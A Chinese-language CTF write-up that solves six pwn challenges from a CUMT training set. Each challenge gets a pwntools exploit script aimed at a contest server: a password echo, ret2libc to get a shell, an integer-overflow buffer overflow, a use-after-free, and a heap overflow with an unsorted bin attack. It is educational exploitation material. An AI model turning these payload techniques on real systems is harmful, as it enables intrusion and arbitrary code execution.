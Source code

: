 ```yaml
---
title: CUMT PWN专项
date: 2021-11-25 23:24:22
tags: [CTF,Pwn,Python]
categories: 
 - CTF
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## pwn1

 都说了是测试nc了，连上就直接可以拿到flag

## pwn2
 给我们个password，你再传回去就完了
 关键是要仔细读题，看仔细到底哪些是password
```python
from pwn import *
r=remote("219.219.61.234",6666 )
print(r.recvuntil(b'*\n').decode())
p=r.recvuntil(b'\n')[:-1]
print(bytes(p))
r.sendline(bytes(p))
r.interactive()
```
## pwn3
ret2libc
泄露libc中puts函数的地址
传入puts_got，得到puts的运行时的地址，
用libc.symbols[“system”] - libc.symbols[“puts”]得到system和puts的距离，
加上之前接收的puts运行时的地址，得到system运行的地址，
然后直接用elf.search('sh\x00').__next__()找到sh的地址
没开canary，
0x38,所以payload填60个a,然后传system地址+sh地址，就可以getshell了
```python 
from pwn import *

#r = process(b'./pwn3')
r=remote('219.219.61.234',10003)
elf = ELF(b'./pwn3')
libc = ELF(b'./libc.so.6')

print(r.recv().decode())
puts_got = elf.got['puts']
print(puts_got)

r.send(str(puts_got).encode())
r.recvuntil(b' : ')
puts_addr = int(r.recvuntil(b'\n')[:-1],16)
print(puts_addr)

system_addr = puts_addr + libc.symbols["system"] - libc.symbols["puts"]
print(system_addr)

p = b'a'*60 + p32(system_addr) + p32(0xdeadbeef) + p32(elf.search(b'sh\x00').__next__())
r.recvuntil(b' :')
r.sendline(p)

r.interactive()
```
## pwn4
没开canary，但是前两个地方不能栈溢出，
![image-20230425232110426](https://res.cloudinary.com/sycamore/image/upload/v1682436075/Typera/2023/04/dc2c87519810519185f4e3c91622b01d.png)
而又观察到v3刚好是个unsigned int8型的变量，可以利用整数溢出的漏洞，
它的最大值位255，所以只要保证一共填了255+4 ~ +8之间的个数就行

```python
from pwn import *

#r = process('./pwn4')
r = remote("219.219.61.234",10004 )

backdoor=0x0804868B
p = b'a'*0x18 + p32(backdoor) + b'a'*(259-0x18-4)

r.recvuntil(b'choice:')
r.sendline(b'1')
r.recvuntil(b'username:')
r.sendline(b'123')
r.recvuntil(b'passwd:')
r.sendline(p)

r.interactive()
```
## pwn5
Use After Free漏洞
指针free之后没有置空，下次在访问该指针时能访问到原指针所指向的堆内容
添加两个note之后，依次释放。再创建大小为8的note时，内容部分对应被分配到第一个note里面，而它的指针没有置空，
所以如果我们在新的note里面放后门函数的地址的话，print新note的内容的时候，就会执行这个后门函数
```python
from pwn import *

#r = process(b'./pwn5')
r=remote('219.219.61.234',10000)

backdoor=0x08048986

def add(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.send(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))    

def Print(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

add(32,'aaaa')
add(32,'aaaa')
delete(0)
delete(1)
add(8,p32(backdoor))
Print(0)

r.interactive()
```

## pwn6
堆溢出漏洞 + unsorted bin attack
只要控制v3=4869，同时控制qword_6020C0大于0x1305，就可以了
![image-20230425232125920](https://res.cloudinary.com/sycamore/image/upload/v1682436089/Typera/2023/04/d1aaf56f4760a578927720faa790c02a.png)
观察到v3=2对应的函数里面有堆溢出漏洞，所以可以利用堆溢出漏洞修改堆块的bk指针为qword_6020C0的地址-16

```python
from pwn import *

#r = process('./pwn6')
r = remote("219.219.61.234",10001 )
elf=ELF(B'./pwn6')

def create(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def edit(idx,size,content):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

create(0x20,'aaaa')
create(0x80,'bbbb')
create(0x20,'cccc')

delete(1)

magic = 0x6020C0
fd = 0
bk = magic -0x10

edit(0,0x40,b'a' * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk)) 

create(0x80,b'aaaa')
r.recvuntil(b':')
r.sendline(b'4869')

r.interactive()
```

